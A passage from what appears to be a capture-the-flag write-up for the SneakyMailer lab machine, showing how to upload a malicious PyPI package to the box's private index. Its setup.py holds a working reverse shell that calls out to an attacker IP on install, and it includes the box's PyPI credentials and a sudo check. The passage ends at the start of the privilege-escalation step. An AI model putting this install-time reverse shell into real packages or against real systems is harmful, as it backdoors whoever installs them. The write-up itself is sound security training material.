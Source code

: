 The [tutorial from the Python documentation](https://packaging.python.org/tutorials/packaging-projects/) explains how to package Python projects and the structure of the files.

Creating the necessary files for a PyPI package:
```
mkdir mal_package
cd mal_package/
touch __init__.py
touch setup.py
```

The contents of _setup.py_ are from the documentation, but modified with a reverse shell command:
```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
#   (...)
    python_requires=">=3.6",
)
```

Creating _~/.pypirc_ (in the local home directory) to point Python to the PyPI server on the box:
```
[distutils]
index-servers = remote

[remote]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Uploading and executing _setup.py_ from the box:
```
python3 setup.py sdist upload -r remote
```

After it gets executed the listener on my IP and port 9002 gets a connection from our local client.
Another listener on the same port has to be started and as soon as the other one is closed, the _setup.py_ gets executed from the box and the listener will start a reverse shell as the user _low_.

### Privilege Escalation to root

With `sudo -l` the root permissions of the user _low_ can be checked:
```
User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/
```
